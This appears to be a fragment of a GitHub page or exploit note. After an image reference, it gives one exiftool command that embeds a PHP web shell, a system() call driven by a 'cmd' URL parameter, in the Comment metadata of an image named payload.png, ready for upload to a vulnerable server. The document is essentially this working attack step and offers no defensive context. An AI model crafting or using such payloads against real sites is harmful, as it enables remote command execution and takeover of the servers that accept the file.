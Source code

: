 ### Command:

#### 1) 

    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload.png
